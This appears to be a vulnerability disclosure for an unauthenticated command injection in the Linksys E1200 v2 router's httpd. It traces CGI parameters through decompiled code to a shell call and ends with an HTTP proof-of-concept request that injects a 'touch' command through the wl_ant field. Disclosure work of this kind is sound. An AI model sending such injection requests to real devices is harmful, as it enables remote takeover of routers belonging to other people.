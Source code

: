 # Command Injection Vulnerability in `Start_EPI`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Linksys E1200 v2 Router                                      |
| Firmware Version     | **E1200_v2.0.11.001_us.tar.gz**                              |
| Vulnerability Type   | **Unauthenticated Command Injection**                        |
| Vulnerable Component | `httpd` (function `Start_EPI` → `mysystem_wl` → `wl_exec_cmd`) |
| Prerequisites        | No authentication required; remote exploitation possible via CGI parameters (`wl_ant`, `wl_ssid`, `wl_rate`, `ttcp_num`, `ttcp_ip`, `ttcp_size`) |

2. Exploitation Path

```c
int __fastcall Start_EPI(const char *a1, const char *a2)
{
  ...
  if ( !strcmp(a2, "1") )
  {
    cgi = (const char *)get_cgi((int)"wl_ant");
    v5 = (const char *)get_cgi((int)"wl_ssid");
    v6 = (const char *)get_cgi((int)"wl_rate");
    v7 = (const char *)get_cgi((int)"ttcp_num");
    if ( !v7 )
      v7 = "3000";
    v8 = (const char *)get_cgi((int)"ttcp_ip");
    v9 = (const char *)get_cgi((int)"ttcp_size");
    if ( !v9 )
      v9 = "1472";
    if ( v5 )
    {
      sprintf(v11, "wl %s join %s", v10, v5);
      mysystem_wl(v11);
      sleep(1u);
    }
    if ( cgi )
    {
      sprintf(v11, "wl %s antdiv %s", v10, cgi);
      mysystem_wl(v11);
      sprintf(v11, "wl %s txant %s", v10, cgi);
      mysystem_wl(v11);
    }
    if ( v6 )
    {
      sprintf(v11, "wl %s rate %s", v10, v6);
      mysystem_wl(v11);
    }
    if ( v8 )
    {
      sprintf(v11, "epi_ttcp -tsufm -l %s -n %s %s &", v9, v7, v8);
      mysystem(v11);
    }
  }
  return 0;
}

int __fastcall mysystem_wl(const char *a1)
{
  FILE *v2; // $v0
  FILE *v3; // $s0

  v2 = fopen("/dev/console", "w");
  v3 = v2;
  if ( v2 )
  {
    fprintf(v2, "cmd: [%s]\n", a1);
    fclose(v3);
  }
  return wl_exec_cmd(a1);
}
```

3. **Vulnerable Binaries:** `httpd`.
4. 0-Day Command Injection Exploitation Path:
   - In the `httpd` file, at line 6, `cgi = (const char *)get_cgi((int)"wl_ant")` receives data via `get_cgi`. Only XSS protection is applied, without filtering command-sensitive characters. At line 24, `sprintf(v11, "wl %s antdiv %s", v10, cgi)` concatenates the string, which is then passed directly to line 25, `mysystem_wl(v11)`, and ultimately reaches line 55, `wl_exec_cmd(a1)`, resulting in a command injection vulnerability.
   - In the `httpd` file, at line 6, `cgi = (const char *)get_cgi((int)"wl_ant")` receives data via `get_cgi`. Only XSS protection is applied, without filtering command-sensitive characters. At line 26, `sprintf(v11, "wl %s txant %s", v10, cgi)` concatenates the string, which is then passed directly to line 27, `mysystem_wl(v11)`, and ultimately reaches line 55, `wl_exec_cmd(a1)`, resulting in a command injection vulnerability.
   - In the `httpd` file, at line 7, `v5 = (const char *)get_cgi((int)"wl_ssid")` receives data via `get_cgi`. Only XSS protection is applied, without filtering command-sensitive characters. At line 18, `sprintf(v11, "wl %s join %s", v10, v5)` concatenates the string, which is then passed directly to line 19, `mysystem_wl(v11)`, and ultimately reaches line 55, `wl_exec_cmd(a1)`, resulting in a command injection vulnerability.
   - In the `httpd` file, at line 8, `v6 = (const char *)get_cgi((int)"wl_rate")` receives data via `get_cgi`. Only XSS protection is applied, without filtering command-sensitive characters. At line 31, `sprintf(v11, "wl %s rate %s", v10, v6)` concatenates the string, which is then passed directly to line 32, `mysystem_wl(v11)`, and ultimately reaches line 55, `wl_exec_cmd(a1)`, resulting in a command injection vulnerability.
   - In the `httpd` file, at line 9, `v7 = (const char *)get_cgi((int)"ttcp_num")` receives data via `get_cgi`. Only XSS protection is applied, without filtering command-sensitive characters. At line 36, `sprintf(v11, "epi_ttcp -tsufm -l %s -n %s %s &", v9, v7, v8)` concatenates the string, which is then passed directly to line 37, `mysystem_wl(v11)`, and ultimately reaches line 55, `wl_exec_cmd(a1)`, resulting in a command injection vulnerability.
   - In the `httpd` file, at line 12, `v8 = (const char *)get_cgi((int)"ttcp_ip")` receives data via `get_cgi`. Only XSS protection is applied, without filtering command-sensitive characters. At line 36, `sprintf(v11, "epi_ttcp -tsufm -l %s -n %s %s &", v9, v7, v8)` concatenates the string, which is then passed directly to line 37, `mysystem_wl(v11)`, and ultimately reaches line 55, `wl_exec_cmd(a1)`, resulting in a command injection vulnerability.
   - In the `httpd` file, at line 13, `v9 = (const char *)get_cgi((int)"ttcp_size")` receives data via `get_cgi`. Only XSS protection is applied, without filtering command-sensitive characters. At line 36, `sprintf(v11, "epi_ttcp -tsufm -l %s -n %s %s &", v9, v7, v8)` concatenates the string, which is then passed directly to line 37, `mysystem_wl(v11)`, and ultimately reaches line 55, `wl_exec_cmd(a1)`, resulting in a command injection vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/Start_EPI HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 123

wl_ant=0;touch+/tmp/pwned;&wl_ssid=EvilSSID&wl_rate=54&ttcp_num=3000&ttcp_ip=192.168.1.100&ttcp_size=1472&a2=1
```